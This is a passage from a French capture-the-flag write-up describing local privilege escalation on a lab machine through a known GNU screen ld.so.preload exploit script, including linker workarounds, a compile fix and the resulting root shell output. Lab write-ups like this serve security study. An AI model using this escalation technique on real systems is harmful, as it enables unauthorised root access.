 ```shellsession

./screen_exploit.sh: line 42: /tmp/rootshell: No such file or directory
```

Apparemment le compilateur ne trouve pas le linker :

`collect2: fatal error: cannot find 'ld'`

En fouillant on voit qu'il y a comme un sac de noeud dû au fait que `ld` est un lien symbolique vers un chemin relatif et non absolu. J'ai réglé ça en copiant la cible du lien dans le dossier courant et en l'ajoutant à mon PATH :

```shellsession
www-data@fsoft:/tmp$ ls -al /usr/bin/ld
lrwxrwxrwx 1 devloop root 19 Mar 21  2019 /usr/bin/ld -> x86_64-linux-gnu-ld
www-data@fsoft:/tmp$ ls /usr/bin/x86_64-linux-gnu-ld
lrwxrwxrwx 1 devloop root 23 Mar 21  2019 /usr/bin/x86_64-linux-gnu-ld -> x86_64-linux-gnu-ld.bfd
www-data@fsoft:/tmp$ ls /usr/bin/x86_64-linux-gnu-ld.bfd 
-rwxr-xr-x 1 devloop root 1.8M Mar 21  2019 /usr/bin/x86_64-linux-gnu-ld.bfd
www-data@fsoft:/tmp$ cp /usr/bin/x86_64-linux-gnu-ld.bfd /tmp/
www-data@fsoft:/tmp$ export PATH=/tmp:$PATH
```

Ensuite on a une erreur de compilation car `execvp` a besoin de 2 arguments et là le code en donne 3 :

```
[+] First, we create our shell and library...
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:9:5: error: too many arguments to function 'execvp'
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
In file included from /tmp/rootshell.c:2:
/usr/include/unistd.h:578:12: note: declared here
 extern int execvp (const char *__file, char *const __argv[])
            ^~~~~~
```

C'est étonnant que sur le précédent CTF similaire la compilation ait fonctionné. J'ai résolu le problème en replaçant `execvp` par `execvpe` qui prend effectivement l'environnement en troisième paramètre. J'ai aussi rajouté quelques `#include` histoire que les warnings disparaissent.

```shellsession
www-data@fsoft:/tmp$ ./screen_exploit.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /run/screen/S-www-data.

# id
uid=0(devloop) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
You are the winner !
```

On a finalement quelque chose qui fonctionne :)

*Publié le 4 décembre 2022*
